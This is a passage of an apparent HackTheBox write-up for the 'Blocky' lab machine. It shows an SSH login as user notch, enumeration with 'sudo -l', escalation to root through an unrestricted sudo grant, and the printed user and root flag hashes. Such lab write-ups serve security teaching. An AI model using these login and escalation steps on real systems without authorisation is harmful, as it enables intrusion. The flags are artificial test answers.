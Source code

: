 ```bash
┌──(shiro㉿shiro)-[/home/shiro/HackTheBox/Blocky]
└─$ ssh notch@10.10.10.37  
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
```

# Privilege Escalation

Before trying out anything, we should always check what commands the user is allowed to run with `sudo -l`

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Well… lucky for us, `notch` can run all commands as `sudo` :D

```bash
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:/home/notch# cat /root/root.txt 
0a9694a5b4d272c694679f7860f1cd5f
```

